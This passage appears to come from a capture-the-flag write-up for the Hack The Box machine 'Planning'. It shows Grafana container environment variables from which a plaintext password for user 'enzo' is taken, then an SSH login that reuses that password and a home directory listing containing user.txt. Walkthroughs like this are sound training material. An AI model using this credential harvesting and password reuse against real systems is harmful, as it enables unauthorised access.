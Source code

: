 ```
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/usr/share/grafana
```

`enzo`:`RioTecRANDEntANT!`

Checking for `password reuse` through `ssh` we find we can login as `enzo`

```
[May 11, 2025 - 08:32:21 (AEST)] exegol-nightly planning # ssh enzo@planning.htb
enzo@planning.htb's password:
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-59-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat May 10 10:32:29 PM UTC 2025

  System load:           0.01
  Usage of /:            65.2% of 6.30GB
  Memory usage:          41%
  Swap usage:            0%
  Processes:             234
  Users logged in:       0
  IPv4 address for eth0: 10.129.241.200
  IPv6 address for eth0: dead:beef::250:56ff:feb0:4530


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

1 additional security update can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

Last login: Sat May 10 22:32:31 2025 from 10.10.14.158
enzo@planning:~$
```

Just like that we have user!

```
enzo@planning:~$ ls -la
total 32
drwxr-x--- 4 enzo enzo 4096 Apr  3 13:49 .
drwxr-xr-x 3 root root 4096 Feb 28 16:22 ..
lrwxrwxrwx 1 root root    9 Feb 28 20:42 .bash_history -> /dev/null
-rw-r--r-- 1 enzo enzo  220 Mar 31  2024 .bash_logout
-rw-r--r-- 1 enzo enzo 3771 Mar 31  2024 .bashrc
drwx------ 2 enzo enzo 4096 Apr  3 13:49 .cache
-rw-r--r-- 1 enzo enzo  807 Mar 31  2024 .profile
drwx------ 2 enzo enzo 4096 Feb 28 16:22 .ssh
-rw-r----- 1 root enzo   33 May 10 19:24 user.txt
```
